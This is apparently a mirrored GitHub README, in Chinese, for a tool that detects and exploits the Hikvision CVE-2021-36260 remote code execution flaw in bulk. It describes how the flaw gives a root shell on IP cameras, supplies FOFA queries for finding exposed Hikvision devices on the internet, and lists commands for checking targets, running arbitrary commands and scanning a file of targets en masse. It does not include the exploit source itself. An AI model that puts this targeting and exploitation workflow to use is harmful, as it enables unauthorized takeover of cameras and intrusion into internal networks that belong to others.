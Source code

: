 # CVE-2021-36260

海康威视RCE漏洞 批量检测和利用工具

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Cuerz](https://github.com/Cuerz) |
| Url      | [https://github.com/Cuerz/CVE-2021-36260](https://github.com/Cuerz/CVE-2021-36260)                                               |
| Stars    | 80                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-36260* exploit

</details>

## Readme

# 海康威视 CVE-2021-36260 RCE 漏洞

## 漏洞描述

攻击者利用该漏洞可以用无限制的 root shell 来完全控制设备，即使设备的所有者受限于有限的受保护 shell（psh）。除了入侵 IP 摄像头外，还可以访问和攻击内部网络。

## FOFA

```
header="Hikvision"			 
app="HIKVISION-视频监控"
```

## 使用方法

```
python ./CVE-2021-36260.py -u http://192.168.1.1:8080 --check
python ./CVE-2021-36260.py -u http://192.168.1.1:8080 --cmd "ls -la"
python ./CVE-2021-36260.py -f target.txt

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url
  -f FILE, --file FILE  read the url from the file
  --check               Check if vulnerable
  --cmd CMD             execute cmd (i.e: "ls -l")
```

可批量挖掘src



## Get the content

```
git clone https://github.com/Cuerz/CVE-2021-36260
cd CVE-2021-36260
```

{% embed url="https://github.com/Cuerz/CVE-2021-36260" %}

<figure><img src="https://avatars.githubusercontent.com/u/84277976?v=4" alt=""><figcaption><p>Cuerz</p></figcaption></figure>

